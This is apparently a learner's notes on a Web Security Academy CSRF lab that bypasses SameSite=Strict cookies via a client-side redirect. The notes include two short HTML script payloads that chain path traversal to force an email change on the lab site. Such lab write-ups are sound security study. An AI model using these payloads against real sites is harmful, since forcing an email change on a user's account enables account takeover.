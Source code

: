 ## CSRF Lab 8: SameSite Strict via Client-Side Redirect

### Notes
Session Cookie: TSEuNj6FHuUlKWJxJvD4blwiHJTQ42Xc

Login page shows SameSite=Strict

Email can be changed with a GET request

Copy the GET request:
    /my-account/change-email?email=email@email.com&submit=1
Change the & for the submit value to %26 for URL encoding

Testing CSRF Tokens Checklist: - CSRF Vulnerable
    - Relevant Actions - change email
    - Cookie based session handling - session cookie
    - No unpredictlbe request parameter - passes

### Exploit
```html
<script>
    document.location = "https://0a3c004b03d1da9f81d6486800f60039.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```
```html
<script>
    window.location = "https://0a3c004b03d1da9f81d6486800f60039.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=evil%40ludicro.net%26submit=1";
</script>
```

One of these scripts worked and I don't remember which one.